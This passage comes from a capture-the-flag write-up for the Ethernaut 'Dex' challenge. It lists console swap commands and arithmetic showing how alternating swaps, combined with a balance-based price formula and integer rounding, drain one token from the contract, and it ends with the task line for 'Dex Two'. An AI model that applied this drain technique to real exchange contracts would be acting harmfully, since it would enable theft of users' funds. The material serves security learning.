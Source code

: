 Tasks:
- You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

**Solution:** \
To Solve in console:
```
First approve contract to transact on our behalf
contract.approve(instance, 100)
```

```
await contract.swap(await contract.token1(), await contract.token2(), 10);
await contract.swap(await contract.token2(), await contract.token1(), 20);
await contract.swap(await contract.token1(), await contract.token2(), 24);
await contract.swap(await contract.token2(), await contract.token1(), 30);
await contract.swap(await contract.token1(), await contract.token2(), 41);
await contract.swap(await contract.token2(), await contract.token1(), 45);
```

Since the price relies on the token amount of the contract, we could swap reversibly until either token1 or token2 has 0 amount. In addition, the mathematic precision issue exists due to the fact that Solidity is no floating-point currently, so, the number is round down e.g., 24.444 to 24. We can illustrate the swapping as follows:
Initial balance.
    Player’s balance:
    10 token1
    10 token2
    Contract’s balance:
    100 token1
    100 token2
    The received amount if swap 10 token1 to token2:
    (10 * 100) / 100 = 10 token2
Player’s balance (swap 10 token1 to token2) :
    0 token1
    20 token2
    Contract’s balance:
    110 token1
    90 token2
    Received amount if swap 20 token2 to token1:
    (20 * 110) / 90 ~ 24.444 = 24 token1 (round down)

In the last swapping, we’ll have 65 token2. We cannot swap `65 token2` to `158** token1` since `token1` is not enough as of the current price. The contract currently has `110 token1` and `45 token2`. `(65 * 110 )/45 = 158`
If we need to drain all 110 token1, the amount of token2 to be swapped is: `(65 * 110) / 158 = 45`



# 23. [Challenge 23: Dex Two](https://ethernaut.openzeppelin.com/level/0xd2BA82c4777a8d619144d32a2314ee620BC9E09c)

Tasks:
- You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.
